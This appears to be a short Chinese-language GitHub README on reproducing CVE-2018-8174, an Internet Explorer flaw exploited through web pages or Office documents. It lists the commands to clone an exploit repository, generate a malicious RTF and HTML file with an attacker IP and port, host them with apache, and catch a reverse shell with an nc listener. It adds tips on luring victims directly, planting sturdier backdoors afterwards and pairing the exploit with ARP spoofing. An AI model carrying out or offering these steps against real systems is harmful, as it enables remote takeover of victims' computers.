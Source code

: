 # CVE-2018-8174

## 漏洞简单说明

利用浏览器0day漏洞的新型Office文档攻击。该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在`浏览网页或打开Office文档`时都可能中招，最终被黑客植入后门木马完全控制电脑。

## 复现

下载python脚本保存到本地  
`git clone https://github.com/Yt1g3r/CVE-2018-8174_EXP.git`

开启apache服务  
`service apache2 start`

运行CVE-2018-8174.py生成攻击TRF（exp.rtf）和攻击HTML（exploit.html）  
`python CVE-2018-8174.py -u http://192.168.3.21/exploit.html -o exp.rtf -i 192.168.3.21 -p 4444`

将攻击文件移至web服务目录下  
`cp exp* /var/www/html`

攻击机运行nc监听  
`nc -lvvp 4444`

被攻击者访问攻击web页面即可反弹shell。  
可将 exploit.html 改名为 index.html 那样直接访问IP就能获得 shell ，而不用添加访问目录。  
之后可以上传一些比较健壮的后门。  
据说用word打开 rtf 文件也能反弹回 shell 。但是我没环境测试，且都得是32位的系统（ IE 和 Word ）。

后续看情况测试一下内网arp欺骗综合利用一下这个漏洞。